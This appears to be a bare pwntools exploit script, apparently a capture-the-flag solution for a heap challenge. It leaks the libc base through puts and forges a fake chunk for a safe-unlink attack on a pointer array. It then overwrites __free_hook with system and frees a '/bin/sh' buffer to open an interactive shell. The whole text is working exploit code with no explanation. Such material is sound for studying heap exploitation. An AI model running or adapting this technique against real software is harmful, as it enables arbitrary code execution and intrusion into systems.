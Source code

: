 ```python
def malloc(size):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.recvuntil(b'> ')
    index += 1
    return index - 1

def edit(index, data):
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')
    
def free(index):
    io.send(b'3')
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def target():
    io.send(b'4')
    io.recvuntil(b'> ')
    
def quit():
    io.send(b'5')
 

io = start()

io.recvuntil(b'puts() @ ')
puts = int(io.recvline(), 16)
libc.address = puts - libc.sym['puts']
info("libc base: " + hex(libc.address))

io.recvuntil(b'> ')

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

chunk_prev = p64(0)
chunk_size = p64(0x80)
fd = p64(elf.sym['m_array'] - 0x18)
bk = p64(elf.sym['m_array'] - 0x10)
nop = p8(0)*(0x88 - 8*5)
fake_prev_size = p64(0x80)
fake_size = p64(0x90)

payload = chunk_prev + chunk_size + fd + bk + nop + fake_prev_size + fake_size

edit(0, payload)
free(chunk_b)

overlapped_mparray = p64(0)*3 + p64(libc.sym['__free_hook'] - 8)
edit(0, overlapped_mparray)
edit(0, b'/bin/sh\x00' + p64(libc.sym['system']))
target()


io.interactive()
```
